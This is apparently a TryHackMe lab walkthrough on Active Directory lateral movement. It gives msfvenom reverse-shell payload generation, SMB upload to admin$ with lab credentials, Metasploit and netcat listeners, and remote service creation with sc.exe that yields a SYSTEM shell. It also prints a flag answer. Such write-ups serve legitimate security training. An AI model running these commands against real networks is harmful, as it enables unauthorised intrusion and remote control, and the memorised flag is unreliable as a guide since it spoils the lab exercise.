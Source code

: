 ![Enumerating AD](https://assets.tryhackme.com/room-banners/attacking-ad.png)
## Lateral Movement and Pivoting

``` Your credentials have been generated: Username: henry.bird Password: Changeme123 ```

### Task 3 - Spawning Processes Remotely

### Creating reverse shell payload exe
```bash
#On AttackBox
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.49.15 LPORT=4444 -o msfvenom-payload.exe
```

### Pushing payload to target machine
```bash
#On AttackBox
smbclient -c 'put msfvenom-payload.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```

### Start Metasploit reverse shell server
```bash
#On AttackBox
msfconsole
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set LHOST lateralmovement
LHOST => lateralmovement
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.50.49.15:4444
```

### Reverse shell session, create and start service on target machine
```bash
#On AttackBox
 nc -lvp 4443
 Listening on [0.0.0.0] (family 0, port 4443)
Connection from ip-10-200-51-249.eu-west-1.compute.internal 54509 received!
#On THMJMP2 (As admin)
C:\Windows\system32>sc.exe \\thmiis.za.tryhackme.com create THMservice-4444 binPath= "%windir%\msfvenom-payload.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com create THMservice-4444 binPath= "%windir%\msfvenom-payload.exe" start= auto
[SC] CreateService SUCCESS

C:\Windows\system32>sc.exe \\thmiis.za.tryhackme.com start THMservice-4444
sc.exe \\thmiis.za.tryhackme.com start THMservice-4444

SERVICE_NAME: THMservice-4444 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 4  RUNNING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 3524
        FLAGS              : 

C:\Windows\system32>
```

### THMIIS reverse shell to run flag.exe
```bash
#On THMIIS
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\t1_leonard.summers\Desktop
cd C:\Users\t1_leonard.summers\Desktop

C:\Users\t1_leonard.summers\Desktop>flag.exe
flag.exe
THM{MOVING_WITH_SERVICES}
```

### Task 4 - Moving Laterally Using WMI

### Create MSI payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > payload.msi
```


### Pushing payload to target machine
```bash
smbclient -c 'put payload.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$' Korine.1994
```


